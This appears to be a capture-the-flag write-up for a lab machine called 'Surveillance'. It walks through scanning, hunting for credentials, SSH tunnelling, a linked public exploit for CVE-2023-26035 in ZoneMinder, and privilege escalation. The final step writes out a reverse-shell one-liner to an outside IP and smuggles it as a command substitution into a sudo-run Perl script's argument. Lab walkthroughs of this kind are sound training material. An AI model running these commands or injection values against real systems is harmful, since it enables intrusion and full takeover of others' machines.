# Surveillance

```bash
nmap -sC -sV -p- -vv -oN nmap/full $target
```



craft cms 4.4.14









We discover MySql credentials but that's a deadend, since the hash isn't crackable.



We'll unzip the files to check the contents, you can transfer the files to your machine, unzip them in /tmp or any other way you'd preffer.

```bash
mkdir -p /tmp/moon
unzip p.zip -d /tmp/moon/
```





With the password we can now ssh in as matthew

```bash
ssh matthew@$target
```





By running a find command looking for zoneminder user group we find /usr/share/zoneminder

```bash
find / -type f -group zoneminder 2>/dev/null
```



At this point your enumeration skills will come realy in play, as there's alot of files with extensive information, greping for keywords here is quite useful as it's a web app of sorts. So keywords such as password, secret, version, pass, db, database, etc. will gain you quite a bit of information.

```bash
grep password -Ri . 2>/dev/null
```



Credentials but gain the database isn't useful with it's contents.


Knowing where logs are a good place to look for more information.



The fact that we notice a port being used it might be a good time to check what's running locally:

```bash
netstat -tulpn
```



However here we don't see port 2222 used, however there is a port 8080. 3306 is mysql and 53 is DNS, so we can ignore those, but 8080 is worth looking into.

```bash
curl localhost:8080
```

By curling the port we can get a glimpse what's there. Now that we're sure there's something there we need to tunnel it so that we can get a visual.

```bash
ssh matthew@$target -L 2222:localhost:8080
```



Found the app, but we netiher have credentials nor a version number, so let's look for default creds online, see if those work, if not let's find a version number.


As the version we found is 1.36.32 Let's look for any known exploits.

[PoC CVE-2023-26035 by heapbytes](https://github.com/heapbytes/CVE-2023-26035)

We follow the instructions and get a shell.



Checking sudo priviledges real quick:



We can run any perl script within /usr/share/ following a cerain pattern.





```bash
mkdir -p /tmp/Mythical
echo 'echo "sh -i >& /dev/tcp/10.10.16.72/9005 0>&1" | bash' > /tmp/Mythical/shell.sh
chmod +x /tmp/Mythical/shell.sh
sudo /usr/bin/zmupdate.pl -v 69 -u '$(/tmp/Mythical/shell.sh)' -p ZoneMinderPassword2023
```

Set up a listener and fire off the sudo command.



